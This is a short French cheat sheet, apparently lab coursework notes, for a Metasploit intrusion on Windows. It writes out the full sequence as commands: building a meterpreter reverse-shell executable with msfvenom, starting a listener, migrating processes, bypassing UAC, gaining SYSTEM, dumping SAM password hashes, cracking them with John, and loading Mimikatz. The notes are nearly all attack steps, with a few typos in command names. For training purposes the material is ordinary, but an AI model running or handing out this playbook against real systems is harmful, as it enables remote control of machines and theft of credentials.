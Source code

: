 - Switch session
> sessions sessionID
    
- Quitter Session
> abort sessions
    
### MSFVenom

- Create charge
> mfsvenom -p windows/meterpreter/reverse_tcp -f exe -o mous.exe

- Lancement du listner
> msf6 > use multi/handler
> msf6 expoit(multi/handler) > set LHOST 192.168.2.5
> msf6 expoit(multi/handler) > set LPORT 9090

Lorsque msf est contacté, prendre la session:
> session ID
> ? 

**WARNING**  Evtx Event LOG de clean de log => 104

Il faut toujours detacher le meterpreter de la payload:
> ps <= visualisation des Process "Client-PC/Client"

Deplacement en memoire
> migrate PROCESSID_SAME_RIGHT

**NOTE** `voldiff.py` permet de retrouver par diff le process, pas nativement avec `volatilit`.

- Mettre en pause la session pour revenir sur Metasploit
> bg

- Monter les privilèges sous Windows (UAC)
> search uac
> use exploit/windows/local/bypassuac
> options

**WARNING** `4444` est un port specific à Metasploit
    
- Elevation de privilège (UAC)
> getprivs

- Get system privilege
> getsystem

- Recupere la SAM
> hashdump
   
- Crack password
> john sam.txt --format=nt --show
    
- Comment charger des commandes exploitatble en Meterpreter:
> load MODULE

ex de Mimikatz:
> load kiwi

## Note TP
